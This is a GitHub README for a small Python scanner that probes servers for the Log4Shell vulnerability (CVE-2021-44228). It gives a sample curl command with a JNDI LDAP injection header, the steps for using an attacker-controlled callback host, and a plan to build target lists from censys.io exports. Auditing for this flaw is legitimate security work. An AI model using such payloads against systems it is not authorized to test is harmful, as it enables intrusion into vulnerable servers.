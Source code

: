 ```yaml
---
title: "README"
tags: ""
---
```


# Little Log4Shellper

Simple tool I wrote on a pleasant Sunday afternoon.  

This tool leverages a log4j vulnerability, [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). The exploit involves injecting a malicious payload into a GET request header.  

While the original intent was to quickly audit multiple servers, the --payload option could be used to extend that functionality.   

E.g.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://1270.0.0.1/o=refence}
```
### Usage
![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/5c5d35acdd39c1cea1b4012476057b867cc7d0b6dcce35a6579b4c8805859452-image.png)

### Example

Spin up a test target

![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/44e93d53cc0f2b43551cc2df6da7615cbb0364f9007c2dfa0dc82d3ff7220687-image.png)

Spin up or use an attacker owned host.  
In this example I use a free log4shell server hosted by Huntress.
This is but one approach.

![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/09035f0d15afe2eb34a28d1aa6a3f0fb0602148b4da54eb084c8fab539d1388b-image.png)

Run logshellper.py

![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/84b326f78c4a6d0c7b88db8b9b20065e126a8864453e73de038a37902fa8843b-image.png)

Check results. If the target show up on the attacker's server, the target is exploitable.
![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/0d7cd3edc7fbf29d1e4c05c9d9e15c3b420c238890a92ef4ccb1d01c655ee0e6-image.png)


### TODO
parse .csv file (i.e. exported form censys.io) to build targets.

### Thanks
I'd like to thank the teams at Huntress.com, Lunasec.io
and everybody else who shared their research and efforts.

### References
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java   
https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://github.com/drahosj/log4shell-vulnerable-app
